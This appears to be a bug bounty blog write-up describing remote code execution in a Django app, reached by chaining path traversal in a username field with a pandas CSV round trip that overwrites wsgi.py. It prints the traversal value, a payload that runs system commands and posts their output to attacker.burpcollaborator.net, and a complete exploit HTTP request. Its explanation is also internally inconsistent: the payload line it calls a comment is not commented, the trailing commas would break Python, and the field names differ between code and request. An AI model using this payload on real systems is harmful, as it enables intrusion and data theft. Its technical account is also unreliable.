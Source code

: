 ```yaml
---

title: "How I Chained Directory Traversal and CSV Parser Abuse for RCE in a Django App"
date: 2025-06-16
categories: [security, django, rce]
tags: [bugbounty, csv, traversal, django, rce]

---
```


While testing a web application as part of a bug bounty program, I uncovered a critical RCE vulnerability by chaining directory traversal with a subtle CSV parsing abuse. The exploit chain involved a combination of directory traversal and subtle abuse of how the application used the `pandas` CSV parser, ultimately allowing me to overwrite the `wsgi.py` file and execute arbitrary code server-side.

## Application Behavior

The vulnerable endpoint allowed users to upload CSV files, process them using `pandas`, and save the result to disk. The target function looked something like this:

```python

        username = request.data.get("username")
        fleet_file = request.FILES.get("csv_file")
        temp_path = f"/tmp/{fleet_file.name}"
        with open(temp_path, "wb") as out_file:
            for chunk in fleet_file.chunks():
                out_file.write(chunk)

        # Parse uploaded CSV
        df = pandas.read_csv(temp_path)

        # Determine output path
        base_dir = Path(__file__).resolve().parent.parent
        save_dir = os.path.join(base_dir, "data_store", username)
        os.makedirs(save_dir, exist_ok=True)

        final_path = os.path.join(save_dir, fleet_file.name)
        if os.path.exists(final_path):
            os.remove(final_path)
        df.to_csv(final_path, index=False, encoding="utf-8")
        return Response({"status": "success"}, status=200)
    except Exception as e:
        return Response({"error": str(e)}, status=500)

```

There are two key observations here:

- The `username` field is directly used in the filesystem path without sanitization.
- The `pandas.read_csv()` and `df.to_csv()` roundtrip occurs before saving the file.

This setup made it possible to craft a payload that hijacks the file write location and executes code on the system.

## From Path Traversal to File Overwrite

The `username` field was trusted and used to construct a path like `data_store/<username>/file.csv`. I simply submitted a value like:

```
../../../../../../app/backend/backend/

```

As a result, the application wrote my uploaded file to:

```
/app/backend/backend/file.csv
```

## Crafting a Valid Payload Through CSV

The hard part was getting code into `wsgi.py` without triggering a syntax error. The app parses the file with `pandas.read_csv()` and then re-serializes it with `to_csv()`. This means my uploaded file would be rewritten before it landed in `wsgi.py`.

Here’s what `pandas.to_csv()` does:

- Writes headers by default.
- Pads rows with commas to match the maximum column count.
- Writes each cell value as a string, potentially quoting it.

So I needed my payload to:

1. Avoid being mangled during CSV parsing.
2. Still be valid Python after extra commas were appended.

The trick was to put my malicious line in a comment using `#`. This didn’t hide it from pandas—it parsed it like any other row—but ensured that any trailing junk added by `to_csv()` would be ignored by Python when the file ran. 
Python ignores everything after a `#` on a line, so even if `pandas.to_csv()` appends extra commas or whitespace, they’re treated as part of the comment and discarded by the interpreter.

Here’s the actual payload line embedded in a seemingly innocent CSV:

```python
# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

```

After going through pandas’ processing, it still looked like a comment line to Python, with enough real logic inside to get code execution and reassign `application`, satisfying Django’s expectations.

## Picking the Right Target for Code Execution

At this stage, the file overwrite was working — but to escalate it to RCE, I needed to identify a file that the application would **automatically load or execute after modification**, since I had **no direct ability to invoke the overwritten file manually**. This meant finding a server-side script that Django would re-import or re-run implicitly on access. That led me to `wsgi.py`.

## Why wsgi.py?

From the [WSGI specification](https://wsgi.readthedocs.io/en/latest/), the `wsgi.py` file exists to expose a callable named `application` that acts as the entry point for the web server to interact with a Python app. In Django, this is typically done using:

```python
from django.core.wsgi import get_wsgi_application
application = get_wsgi_application()

```

During testing, a verbose error message gave away the project’s file structure. The traceback included a path like:

```
/app/backend/backend/
```

This nested layout is exactly what you get when a Django app is created using `django-admin startproject backend` — where the outer `backend/` is the project root and the inner one holds settings, `wsgi.py`, and other core files.

That made `wsgi.py` the perfect target. I couldn’t *run* arbitrary files, only overwrite them — so I needed something the server would execute on its own. Django’s development server watches `wsgi.py` for changes and automatically reloads it when modified. That meant just touching the file was enough to trigger execution. By placing my payload inside a Python comment and ending with a clean `application = get_wsgi_application()` line, I preserved the structure Django expected while slipping in remote code execution.

## Final Exploit Request

Here’s the trimmed HTTP request used to achieve the overwrite:

```http

POST /api/endpoint HTTP/1.1
Host: target.url
Content-Type: multipart/form-data; boundary=---------------------------boundary
Cookie: session=...

-----------------------------boundary
Content-Disposition: form-data; name="fleet_csv"; filename="wsgi.py"
Content-Type: text/csv

# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

-----------------------------boundary
Content-Disposition: form-data; name="report_date"

2025-01-01
-----------------------------boundary
Content-Disposition: form-data; name="username"

../../../../../../app/backend/backend/
-----------------------------boundary--

```

The response confirmed success:

```json
{"status": "success"}
```

Seconds later, my server received the callback with command output.

## Conclusion

This exploit was possible due to:

- Unsanitized use of user input in filesystem paths.
- Unsafe file parsing and rewriting with `pandas`.
- Django’s auto-reloading behavior in debug mode.

By combining these behaviors, I was able to go from a basic file upload to full RCE on the server. The real lesson here is that even something as seemingly harmless as CSV parsing can become dangerous in the wrong context—especially when paired with filesystem access and auto-executing server files.